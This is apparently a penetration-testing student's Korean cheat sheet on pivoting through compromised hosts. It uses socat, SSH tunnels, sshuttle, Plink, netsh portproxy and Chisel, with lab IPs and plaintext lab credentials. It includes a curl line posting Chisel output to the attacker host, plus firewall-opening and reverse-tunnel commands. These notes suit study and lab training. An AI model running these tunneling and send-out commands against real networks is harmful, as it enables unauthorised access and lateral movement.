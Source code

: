 ```bash
ip addr
# 네트워크 인터페이스의 IP 주소 확인

ip route
# 라우팅 테이블 확인
```
---
# Port Forwarding with Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
- `-ddd`: 디버그 레벨을 높여 상세 로그 출력
- `TCP-LISTEN:<포트>`: 지정된 포트에서 TCP 연결을 대기
- `fork`: 클라이언트 접속 시 프로세스를 fork 하여 다중 접속 처리
- `TCP:<IP>:<포트>`: 원격 서버와 TCP 연결
---
# SSH Local Port Forwarding
```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
```
- `ssh -N`: 원격 쉘 실행 없이 포트 포워딩만 설정
- `-L [bind_address:]port:host:hostport`: 로컬 포트를 원격 호스트의 특정 포트로 포워딩
---
# SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# /etc/proxychains4.conf
socks5 192.168.50.63 9999

proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `-D [bind_address:]port`: SOCKS 프록시 생성
- `proxychains`: 지정된 프록시를 통해 명령 실행
---
# SSH Remote Port Forwarding
```bash
sudo systemctl start ssh

ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
- `-R [bind_address:]port:host:hostport`: 원격 서버의 포트를 로컬로 포워딩
---
# SSH Remote Dynamic Port Forwarding
```bash
ssh -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998
```
---
# sshuttle
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `sshuttle -r <user@host:port> <subnet>`: VPN 유사 터널링
---
# ssh.exe
```bash
# kali
sudo systemctl start ssh

ssh.exe -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998

proxychains psql -h 10.4.50.215 -U postgres
```
---
# Plink
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
- `-ssh`: SSH 프로토콜 사용
- `-l <user>`: 로그인 사용자명
- `-pw <password>`: 비밀번호
- `-R`: 원격 포트 포워딩
---
# Netsh
```powershell
netsh interface portproxy add v4tov4 listenport=2222 '
listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" '
protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow

ssh database_admin@192.168.50.64 -p2222

netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
- `netsh interface portproxy add`: 포트 프록시 추가
- `netsh advfirewall firewall add rule`: 방화벽 규칙 추가
- `delete rule`: 규칙 삭제
- `del v4tov4`: 포트 프록시 제거
---
# Chisel
```bash
chisel server --port 8080 --reverse
```
- `server`: Chisel을 서버 모드로 실행
- `--port 8080`: 서버가 수신 대기할 포트 번호 (이 예시에서는 8080)
- `--reverse`: 클라이언트가 리버스 포워딩을 요청할 수 있도록 허용

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```
- `client <서버주소:포트>`: 지정된 서버에 클라이언트 모드로 접속
- `R:socks`: 서버 측에서 리버스 SOCKS 프록시를 생성  
  (즉, 서버에서 접속할 수 있는 SOCKS 포트가 열림)
- `&> /tmp/output`: 표준 출력과 표준 에러를 `/tmp/output` 파일로 리다이렉트
- `curl --data @/tmp/output <url>`: 실행 결과 로그를 서버(192.168.118.4:8080)로 전송

```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
- `ssh -o ProxyCommand=...`: SSH 접속 시 프록시 명령어 지정
- `ncat`: netcat의 확장 버전으로 다양한 프록시 지원
- `--proxy-type socks5`: SOCKS5 프로토콜을 사용
- `--proxy 127.0.0.1:1080`: 로컬에서 실행 중인 SOCKS 프록시(Chisel을 통해 생성된 것)
- `%h %p`: SSH가 접속하려는 원격 호스트와 포트로 치환됨
- `database_admin@10.4.50.215`: 최종적으로 접속할 SSH 서버 계정 및 주소
---
